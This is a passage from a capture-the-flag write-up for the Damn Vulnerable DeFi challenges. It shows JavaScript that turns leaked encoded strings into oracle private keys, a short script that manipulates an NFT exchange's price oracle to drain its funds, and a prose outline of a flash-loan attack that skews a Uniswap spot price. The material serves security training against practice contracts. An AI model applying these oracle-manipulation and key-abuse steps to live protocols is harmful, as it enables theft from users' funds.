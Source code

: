 ```js
  leakToPrivateKey(
    `4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34`
  ),
].map(privateKeyHex => {
  // important to keep the `0x` prefix
  return web3.eth.accounts.privateKeyToAccount(privateKeyHex)
})

console.log(
  `Compromised oracles addresses: ${compromisedOracles
    .map(acc => acc.address)
    .join(` `)}`
)
// Compromised oracles addresses: 0xe92401A4d3af5E446d93D11EEc806b1462b39D15 0x81A5D6E50C214044bE44cA0CB057fe119097850c
```

Indeed, we found the private keys for the last two oracle sources which allow [modifying the price and buying / selling NFTs for profit](https://github.com/MrToph/damn-vulnerable-defi/blob/master/test/compromised/compromised.challenge.js#L69-L147).


```js
// 1. reduce NFT price to buy it cheap
const reducedPrice = ether(`0.1`)
await changePrice(reducedPrice.toString());

// 2. buy 1 NFT at this price
await this.exchange.buyOne({ from: attacker, value: reducedPrice });

// 3. increase NFT price to drain all Funds
const exchangeBalance = await balance.current(this.exchange.address);
await changePrice(exchangeBalance.toString());

// 4. approve transferFrom of 1 DVNFT token and sell it
await this.token.approve(this.exchange.address, 1, { from: attacker });
const FIRST_TOKEN_ID = 1;
await this.exchange.sellOne(FIRST_TOKEN_ID, { from: attacker });
```

## 8. Puppet

This is a great challenge because it uses an actual Uniswap V1 pool.
In addition to it, there is a lending contract requiring your collateral to be worth twice as much as your loan.
We try to empty the lending pool tokens without having to put up twice the value in collateral first.

The lending pool needs to know how much the tokens you want to borrow are worth because it needs to compute the collateral requirements.
It uses a `computeOraclePrice` function that computes the spot price of the Uniswap reserves which is already exploitable in and of itself by a flash loan:
Get a huge flash loan, trade a huge amount into the Uniswap pool, drastically skewing the oracle price, borrow tokens from the lending pool at a discount, then "unwind" the Uniswap pool by doing the reverse trade, and finally pay back the flash loan.
